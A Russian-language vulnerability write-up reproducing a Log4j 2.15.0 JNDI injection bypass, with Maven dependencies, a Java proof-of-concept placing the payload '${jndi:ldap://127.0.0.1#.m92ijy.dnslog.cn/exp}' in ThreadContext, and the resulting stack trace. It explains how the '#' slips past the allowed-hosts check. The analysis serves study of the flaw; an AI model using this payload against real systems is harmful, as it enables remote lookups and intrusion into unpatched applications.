

# Анализ уязвимости для пакета apache.log4j.2.15

Все действия были совершины на Mac OS с использованием intellij idea.

## Запуск эксплойта

Создаём новый проет в idea. Выбираем создание с maven и java 1.8.


В pom.xml файле добавляем 2 зависимости:

```
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.15.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.15.0</version>
</dependency>
```

Метод main:

```
public static void main(String[] args) {
    Logger logger = LogManager.getLogger(ThreadContext_PoC.class);
    ThreadContext.put("myContext", "${jndi:ldap://127.0.0.1#.m92ijy.dnslog.cn/exp}");
    logger.error("test");
}
```


ВАЖНО! m92ijy.dnslog.cn -- это dnslog, сгенерированный на http://dnslog.cn . Для того, чтобы локально повторить эксплойт, нужно на этом сайте сгенерировать свой dnslog и заменить m92ijy.dnslog.cn;

Перед запуском необходио пройти в Edit Configurations и выбрать опцию Modify options и добавить галочку в add VM options. В появившемся поле VM options добавляем -Dcom.sun.jndi.ldapURLParsing="legacy" . 



Можно запускать. В качестве результата должны увидеть отображение на http://dnslog.cn, что смогли достучаться.


## Немного про особенности эксплойта

Посмотрим на лог после запуска эксплойта:

```
2023-12-13 18:31:22,817 main ERROR Unrecognized format specifier [S5Slevel]
2023-12-13 18:31:22,820 main ERROR Unrecognized conversion specifier [S5Slevel] starting at position 32 in conversion pattern.
2023-12-13 18:31:53,018 main WARN Error looking up JNDI resource [ldap://127.0.0.1#.m92ijy.dnslog.cn/exp]. javax.naming.CommunicationException: 127.0.0.1#.m92ijy.dnslog.cn:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:243)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1615)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2849)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:347)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLDirContext.getAttributes(GenericURLDirContext.java:100)
	at com.sun.jndi.url.ldap.ldapURLContext.getAttributes(ldapURLContext.java:316)
	at javax.naming.directory.InitialDirContext.getAttributes(InitialDirContext.java:142)
	at javax.naming.directory.InitialDirContext.getAttributes(InitialDirContext.java:137)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:222)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:221)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1110)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1033)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1042)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:467)
	at org.apache.logging.log4j.core.pattern.LiteralPatternConverter.format(LiteralPatternConverter.java:64)
	at org.apache.logging.log4j.core.layout.PatternLayout$NoFormatPatternSerializer.toSerializable(PatternLayout.java:343)
	at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:241)
	at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:226)
	at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:60)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:197)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:190)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:181)
	at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:161)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:134)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppenderPreventRecursion(AppenderControl.java:125)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppender(AppenderControl.java:89)
	at org.apache.logging.log4j.core.config.LoggerConfig.callAppenders(LoggerConfig.java:542)
	at org.apache.logging.log4j.core.config.LoggerConfig.processLogEvent(LoggerConfig.java:500)
	at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:483)
	at org.apache.logging.log4j.core.config.LoggerConfig.log(LoggerConfig.java:417)
	at org.apache.logging.log4j.core.config.AwaitCompletionReliabilityStrategy.log(AwaitCompletionReliabilityStrategy.java:82)
	at org.apache.logging.log4j.core.Logger.log(Logger.java:161)
	at org.apache.logging.log4j.spi.AbstractLogger.tryLogMessage(AbstractLogger.java:2205)
	at org.apache.logging.log4j.spi.AbstractLogger.logMessageTrackRecursion(AbstractLogger.java:2159)
	at org.apache.logging.log4j.spi.AbstractLogger.logMessageSafely(AbstractLogger.java:2142)
	at org.apache.logging.log4j.spi.AbstractLogger.logMessage(AbstractLogger.java:2017)
	at org.apache.logging.log4j.spi.AbstractLogger.logIfEnabled(AbstractLogger.java:1983)
	at org.apache.logging.log4j.spi.AbstractLogger.error(AbstractLogger.java:740)
	at ThreadContext_PoC.main(ThreadContext_PoC.java:12)
```

Основная приграда находится в методе lookup класса JndiManager.


Основной приградой будет данная проверка

```
if (!this.allowedHosts.contains(uri.getHost()))
```

На скриншоте видно, что в запросе присутствует # в имени uri. Это необходимо как раз для прохождения данной проверки: uri.getHost() вернёт 127.0.0.1, что как раз является разрешённым хостом.

Так же, если не ввести опции VM -Dcom.sun.jndi.ldapURLParsing="legacy", то при инициализации url мы провалимся в следующее исключение и не достучимся до dnslog.

 

